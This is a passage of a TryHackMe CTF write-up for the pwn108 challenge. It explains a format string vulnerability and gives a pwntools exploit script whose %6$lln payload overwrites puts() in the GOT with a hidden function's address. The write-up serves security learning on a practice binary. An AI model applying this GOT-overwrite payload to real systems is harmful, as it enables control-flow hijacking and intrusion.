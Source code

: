 Here we see format string vulnerability.

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2042.png)

Using a format string we overwrite the GOT (Global Offset Table) on a non-PIE binary.

We replace the address of puts() in the GOT with the address of the hidden function holidays().

1. We inject in the first buffer the address of puts() in the GOT
2. We use %<int>s  to make printf()  print <address of holidays()> bytes.
3. With %6$lln we overwrite the address of puts() in the GOT with the address of holidays(). We know the latter because the binary is not a PIE.
    - %6$lln writes the number of bytes written so far for the format string in the variable pointed by the positional parameter. 6 is for using the address stored in the first buffer, which points to puts() in the GOT
    

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn108.pwn108'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

puts_got = binary.got['puts']
holiday = binary.symbols['holidays']

io.recvuntil(b"name]: ")
io.sendline(p64(puts_got))

io.recvuntil(b"No]: ")
io.sendline(b"%" + str(holiday).encode("utf-8") + b"s%6$lln")

io.interactive()
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2043.png)